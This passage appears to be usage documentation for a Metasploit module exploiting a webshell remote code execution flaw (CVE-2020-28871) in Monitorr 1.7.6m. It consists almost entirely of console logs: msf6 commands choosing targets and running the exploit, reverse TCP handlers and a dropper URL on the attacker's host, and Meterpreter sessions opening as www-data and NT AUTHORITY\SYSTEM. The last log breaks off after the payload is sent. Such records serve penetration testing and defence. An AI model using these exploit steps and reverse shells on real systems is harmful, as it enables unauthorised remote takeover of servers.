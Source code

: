 ```
[*] Command Stager progress - 100.00% done (113/113 bytes)
[*] Server stopped.

meterpreter > sysinfo
Computer     : 192.168.201.34
OS           : Ubuntu 22.04 (Linux 5.15.0-60-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: www-data
meterpreter >
```

### Monitorr 1.7.6m on Windows Data Center 2019 - Powershell Meterpreter session
```
msf6 exploit(multi/http/monitorr_webshell_rce_cve_2020_28871) > set rhosts 192.168.201.36
rhosts => 192.168.201.36
msf6 exploit(multi/http/monitorr_webshell_rce_cve_2020_28871) > check
[+] 192.168.201.36:80 - The target is vulnerable. Monitorr version: 1.7.6m
msf6 exploit(multi/http/monitorr_webshell_rce_cve_2020_28871) > set target 3
target => 3
msf6 exploit(multi/http/monitorr_webshell_rce_cve_2020_28871) > exploit

[*] Started reverse TCP handler on 192.168.201.10:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Monitorr version: 1.7.6m
[*] Executing Windows Command for cmd/windows/powershell/meterpreter/reverse_tcp
[*] Sending stage (175686 bytes) to 192.168.201.36
[+] Deleted dkvszuqil.php
[*] Meterpreter session 4 opened (192.168.201.10:4444 -> 192.168.201.36:54805) at 2023-03-13 16:18:53 +0000

meterpreter > sysinfo
Computer        : WIN-HHRQENPDSRS
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```

### Monitorr 1.7.6m on Windows Data Center 2019 - Windows Dropper Meterpreter session
```
msf6 exploit(multi/http/monitorr_webshell_rce_cve_2020_28871) > set target 4
target => 4
msf6 exploit(multi/http/monitorr_webshell_rce_cve_2020_28871) > exploit

[*] Started reverse TCP handler on 192.168.201.10:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Monitorr version: 1.7.6m
[*] Executing Windows EXE Dropper for windows/x64/meterpreter/reverse_tcp
[*] Using URL: http://192.168.201.10:1981/EEFxVaRHZLJZNrF
[*] Client 192.168.201.36 (Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.17763.1) requested /EEFxVaRHZLJZNrF
[*] Sending payload to 192.168.201.36 (Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.17763.1)
```